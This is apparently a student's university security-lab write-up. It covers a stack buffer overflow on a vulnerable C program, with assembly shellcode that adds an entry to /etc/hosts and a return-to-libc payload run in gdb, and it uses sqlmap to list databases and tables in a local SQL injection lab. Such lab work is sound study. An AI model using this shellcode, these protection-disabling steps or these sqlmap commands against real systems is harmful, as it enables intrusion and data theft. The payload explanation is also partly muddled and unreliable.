


# LAB#1, Doan Minh Khanh,   INSE331280E_02FIE

# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:


- Compile asm program and C program to executable code. 
  
Run docker

Copy the above code c into the folder Security-lab/buffer-overflow/vuln.c

Do the same for the shellcode, copy into the file_del

Create the file out vuln.o to execute the code

``` 
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
   Create a file_asm out by these 2 commands
``` 
nasm -g -f elf file_del.asm

ld -m elf_i386 -o file_del file_del.o
```
Set up the enviroment
``` 
sudo ln -sf /bin/zsh /bin/sh

sudo sysctl -w kernel.randomize_va_space=0
```
Change perrmission
``` 
sudo chmod 7777 /etc/hosts
``` 
The picture of the above actions:



- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
output screenshot (optional)

Stack frame:


To execute the the file_del, it needs to overwrite the buffer

we redirect the directory
export mybuf="/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del"

find the payload by
``` 
gdb -q vuln.out  
``` 


Then we collect the payload that can conduct buffer-overflow to the return address like in the stackframe

payload = padding + system_addr + exit_addr + "/bin/sh"
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x09\xdf\xff\xff')")
```
**Conclusion**: comment text about the screenshot or simply answered text for the question

After run the payload in gdb wwe have


Then we check again the /cat/host directory, we have see the new part 127.1.1.1 google.com. That means we insert and conduct the buffer-overflow sucessfully 

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

git clone https://github.com/sqlmapproject/sqlmap.git


Find the available database
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1"  --dbs
````


At the end we have information of the database


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables
````

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**: